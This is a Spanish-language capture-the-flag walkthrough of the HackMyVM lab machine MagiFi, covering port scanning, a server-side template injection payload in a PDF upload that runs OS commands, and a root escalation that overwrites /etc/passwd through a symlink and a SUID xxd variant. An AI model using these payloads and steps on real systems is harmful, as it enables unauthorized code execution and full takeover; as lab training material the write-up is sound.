






Máquina **MagiFi** de la plataforma [HackMyVM](https://hackmyvm.eu/)

Autor: [x4v1l0k](https://hackmyvm.eu/profile/?user=x4v1l0k)

Dificultad: Difícil


# Recognition

Comenzamos ejecutando `ping` para ver si tenemos alcance con la máquina:

```css
ping -c 1 192.168.56.130
```

```css
PING 192.168.56.130 (192.168.56.130) 56(84) bytes of data.
64 bytes from 192.168.56.130: icmp_seq=1 ttl=64 time=0.515 ms

--- 192.168.56.130 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.515/0.515/0.515/0.000 ms
```

como podemos ver la máquina está activa por lo que ahora podemos realizar un escaneo con `nmap` para poder obtener los puertos abiertos:

```css
nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv -oN escaneo.txt 192.168.56.130
```

```ruby
# Nmap 7.95 scan initiated Wed Feb 12 23:17:35 2025 as: nmap -p- --open --min-rate 5000 -sSVC -Pn -n -vvv -oN escaneo.txt 192.168.56.130
Nmap scan report for 192.168.56.130
Host is up, received arp-response (0.0013s latency).
Scanned at 2025-02-12 23:17:35 -03 for 11s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:c6:d6:24:1e:5b:9e:66:25:0a:ba:0a:08:0b:18:40 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCihzhvruzjUnXRfyh685PiUN5ItFZ/V0IHymFDih4nSIcKYrhMIw06oKdfeT3zo4tP14xB3ZrjnI3sEFh9R8LV34dTNhH4cNUtbS/f0h2inMM35dJc533bNxJtT/znohcEjYgUP3PSCK3dOuP+CcMrW8z+0QJJE9gbw9DqC5hlCzZwBHJgMvNhP74hBD/JayHiS8G+K2G4owfXRHBs3LhEXYpHEibAHS/E1G1j9R2wzTLKoN5Y0JKQ+bLxGbJekcnSl2o6hlAarOQnX1I3G+EFgWexJn/xABxqEWk9B6NLhhPozoTyi43Xc/omUF6Cw9jFl2v4z7bABMVVPjlXH748C6tFeRzx6/mqAv2Ok2+Hzf1iessMzvYs1hnZBqL51gwcmBmMoSovm68d2jEKUwVQxEIsFH5lFGQciyM0rfn6EcA0up6iomAhs2fTA8MsOG6WJWd1Sw2nCTNygrmQ8tZfVGYz8rVaH8MkUENct8IxGN1iqel+9Cmdka9DDb+BMVM=
|   256 9c:c3:1d:ea:22:04:93:b7:81:dd:f2:96:5d:f0:1f:9b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFAZBwooUDLqSK+kKOx+YVnScFejnY3t0q+D4qt3jCOsjP4dJ8Wf9ORNUbHa7CtlrK3WlqluzuRQsXJ10tvyTw8=
|   256 55:41:15:90:ff:1d:53:88:e7:65:91:4f:fd:cf:49:85 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGM6WqG9CguoVafo9uhRSPqtZG9yR57PD70/FKDqba9e
80/tcp open  http    syn-ack ttl 64 Werkzeug httpd 3.0.4 (Python 3.8.10)
|_http-title: Did not follow redirect to http://hogwarts.htb
|_http-server-header: Werkzeug/3.0.4 Python/3.8.10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 08:00:27:2E:A6:69 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 12 23:17:46 2025 -- 1 IP address (1 host up) scanned in 10.90 seconds
```

como podemos ver hay 2 puertos abiertos:
•`Puerto 22: OpenSSH 8.2p1 Ubuntu`

•`Puerto 80: Werkzeug httpd 3.0.4`

viendo esto, podemos descartar el puerto 22 ya que no tenemos credenciales y la versión no presenta vulnerabilidades críticas, por lo que pasaremos al puerto 80 con el servidor de python.

### Port 80 enumeration

Al entrar a la web desde la dirección ip nos redirige al dominio "hogwarts.htb", el cual añadiremos al archivo `/etc/hosts` de la siguiente manera:


```css
<IP>	hogwarts.htb
```

y ahora sí nos cargará la página.

Lo primero que vemos al entrar es que podemos subir un pdf, además nos dan un archivo de word como ejemplo del formato que tiene que tener el pdf, lo descargamos y lo abrimos con `libreoffice`. Al abrirlo veremos que tiene un texto y además tiene unos datos los cuales tenemos que rellenar mas abajo:



de todo el documento lo único que nos interesa son los datos ya que al subir el pdf a la web podremos verlos reflejados:



Sabiendo esto, podemos probar 2 cosas:
• `XSS`

• `SSTI`

de estas dos lo más interesante sería un `SSTI(server side template injection)` ya que como no hay cookies y no hay nadie que revise esa web no podríamos hacer nada interesante con un `XSS`. Para probar un `SSTI ` debemos poner `{{7*7}}`, si al reflejarse pone un `49` significa que la vulnerabilidad está presente:



como podemos observar se muestra un número `49`, lo cual nos indica que la vulnerabilidad está presente y la podemos explotar.

# Intrusion

Al ser python, podemos ir al siguiente repositorio de github:

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)

y si revisamos podremos ver que con la siguiente cadena podemos ejecutar un comando:

```css
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```



como podemos ver estamos ejecutando comandos, por lo que ahora simplemente usamos alguna reverse shell de la página [RevShells](https://revshells.com/) y entramos en la máquina.

# Privilege Escalation

### User 'harry_potter'

Al entrar en la máquina, busco binarios con el bit `SUID` activado:

```css
find / -perm -4000 2>/dev/null
```

```css
harry_potter@MagiFi:~$ find / -perm -4000 2>/dev/null
/usr/bin/xxd_horcrux
/home/tom.riddle/.horcrux.png
harry_potter@MagiFi:~$ 
```

de todos los que salen, solo nos interesan esos dos.

Al ejecutar `xxd_horcrux`, veremos que nos sale el mensaje de ayuda de el mismo `xxd` pero un poco modificado:



al parecer la opción `-O` dice que solo podemos dejar un outfile llamado "horcruxes" (o parecidos a eso), y ademas vemos el otro binario/archivo con el bit suid activado el cual se llama `.horcrux.png`. Sabiendo esto podemos aprovechar la lectura de archivos con `xxd` que se encuentra en [GTFOBins](https://gtfobins.github.io/gtfobins/xxd/#file-write) de la siguiente manera:

• Primero copiamos el archivo `/etc/passwd` a nuestro directorio actual:

```css
cp /etc/passwd ~/
```

luego, creamos un archivo llamado `.horcrux.png` con `touch`:

```css
touch .horcrux.png
```

ahora haremos un enlace simbólico del archivo `/etc/passwd` con nuestro archivo `.horcrux.png`, para que cuando lo escribamos realmente estemos modificando el archivo en `/etc/`:

```css
ln -sf /etc/passwd ~/.horcrux.png
```

ahora modificamos el `passwd` que copiamos para que sea lo que se sobrescriba en el archivo `.horcrux.png` que como dije antes, modificará el archivo `/etc/passwd`:

```css
sed 's/root:x:/root::/g' -i ~/passwd
```

finalmente, nos aprovechamos del binario `xxd_horcrux` y sobrescribimos el archivo `/etc/passwd` para que podamos ejecutar `su` y escalar a root sin contraseña:

```css
cd && cat ~/passwd | xxd | /bin/xxd_horcrux -r -O .horcrux.png
```

### Root



Gracias por leer ;)